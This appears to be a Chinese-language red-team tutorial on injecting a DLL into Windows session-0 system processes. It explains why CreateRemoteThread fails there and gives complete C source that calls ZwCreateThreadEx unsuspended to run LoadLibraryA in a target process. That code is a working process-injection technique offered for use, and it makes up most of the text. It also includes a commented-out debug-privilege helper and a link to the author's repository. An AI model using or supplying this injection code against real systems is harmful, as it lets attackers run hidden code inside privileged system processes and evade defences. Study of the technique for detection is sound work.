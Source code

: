 # Bypass Session 0 Injection

## 简介

在使用传统的进程注入技术的过程中，可以向普通用户用户进程注入shellcode或dll，那么如果我们想更进一步注入到系统进程内，通常会失败，这是由于session 0隔离的缘故，接下来本文会介绍如何突破session 0隔离进行对系统进程的注入。

## ZwCreateThreadEx函数

通过调用CreateRemoteThread创建远程线程在NT内核6.0以前是没有什么问题，但在6.0以后引入了session隔离机制，在创建一个线程时先挂起，然后判断是否运行在所在会话层再决定是否恢复运行。

ZwCreateThreadEx函数比CreateRemoteThread函数更接近内核，CreateRemoteThread最终也是调用ZwCreateThreadEx函数来创建线程的，通过前人的研究发现，通过对CreateRemoteThread逆向研究发现，在内部调用ZwCreateThreadEx会把第七个参数创建标识设置为1，这样会使创建的线程挂起，这也是注入失败的原因。

所以如果想要创建的线程成功执行我们需要将第七个参数指定为0，这样我们就能在创建线程后让他执行。

ZwCreateThreadEx函数原型在不同位数的系统中有细微差别。

![](../.gitbook/assets/image%20%2822%29.png)

```text
#ifdef _WIN64
	typedef DWORD(WINAPI *typedef_ZwCreateThreadEx)(
		PHANDLE ThreadHandle,
		ACCESS_MASK DesiredAccess,
		LPVOID ObjectAttributes,
		HANDLE ProcessHandle,
		LPTHREAD_START_ROUTINE lpStartAddress,
		LPVOID lpParameter,
		ULONG CreateThreadFlags,
		SIZE_T ZeroBits,
		SIZE_T StackSize,
		SIZE_T MaximumStackSize,
		LPVOID pUnkown);
#else
	typedef DWORD(WINAPI *typedef_ZwCreateThreadEx)(
		PHANDLE ThreadHandle,
		ACCESS_MASK DesiredAccess,
		LPVOID ObjectAttributes,
		HANDLE ProcessHandle,
		LPTHREAD_START_ROUTINE lpStartAddress,
		LPVOID lpParameter,
		BOOL CreateSuspended,
		DWORD dwStackSize,
		DWORD dw1,
		DWORD dw2,
		LPVOID pUnkown);
#endif
```

## 代码实现

该注入技术与经典WriteProcessMemory，CreateRemoteThread注入技术非常相似，只是把创建进程的函数从CreateRemoteThread换成了ZwCreateThreadEx。

```text
#include <Windows.h>
#include <stdio.h>

#ifdef _WIN64
typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	ULONG CreateThreadFlags,
	SIZE_T ZeroBits,
	SIZE_T StackSize,
	SIZE_T MaximumStackSize,
	LPVOID pUnkown);
#else
typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	BOOL CreateSuspended,
	DWORD dwStackSize,
	DWORD dw1,
	DWORD dw2,
	LPVOID pUnkown);
#endif

typedef DWORD(WINAPI* typedef_LoadLibraryA)(char* path);
/*
BOOL EnbalePrivileges(HANDLE hProcess, char* pszPrivilegesName)
{
	HANDLE hToken = NULL;
	LUID luidValue = { 0 };
	TOKEN_PRIVILEGES tokenPrivileges = { 0 };
	BOOL bRet = FALSE;

	bRet = OpenProcessToken(hProcess, TOKEN_ADJUST_PRIVILEGES, &hToken);

	bRet = LookupPrivilegeValue(NULL, pszPrivilegesName, &luidValue);

	tokenPrivileges.PrivilegeCount = 1;
	tokenPrivileges.Privileges[0].Luid = luidValue;
	tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	bRet = AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, 0, NULL, NULL);


	return TRUE;
}*/

int main(int argc, char* argv[]) {
	//EnbalePrivileges(GetCurrentProcess(), SE_DEBUG_NAME);

	char DllPath[] = "C:\\Users\\Black Sheep\\source\\repos\\sesion0\\x64\\Debug\\TestDll.dll";

	HANDLE hRemoteThread;

	HANDLE hNtModule = GetModuleHandleA("ntdll.dll");

	HANDLE hKeModule = GetModuleHandleA("Kernel32.dll");

	typedef_ZwCreateThreadEx ZwCreateThreadEx = GetProcAddress(hNtModule, "ZwCreateThreadEx");

	typedef_LoadLibraryA myLoadLibraryA = GetProcAddress(hKeModule, "LoadLibraryA");

	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 1516);

	LPVOID lpBaseAddress = VirtualAllocEx(hProcess, NULL, sizeof(DllPath)+1, MEM_COMMIT, PAGE_READWRITE);

	WriteProcessMemory(hProcess, lpBaseAddress, DllPath, sizeof(DllPath), 0);

	ZwCreateThreadEx(&hRemoteThread, PROCESS_ALL_ACCESS, NULL, hProcess, (LPTHREAD_START_ROUTINE)myLoadLibraryA, lpBaseAddress, 0, 0, 0, 0, NULL);

	CloseHandle(hRemoteThread);
	CloseHandle(hProcess);
	FreeLibrary(hKeModule);
	FreeLibrary(hNtModule);
	return 0;

}
```

![](../.gitbook/assets/image%20%283%29.png)

* github:[https://github.com/idiotc4t/sesion0](https://github.com/idiotc4t/sesion0)

## LINKS

《windows黑客编程》

{% embed url="https://kb.firedaemon.com/support/solutions/articles/4000086228-what-is-session-0-isolation-what-do-i-need-to-know-about-it-" %}



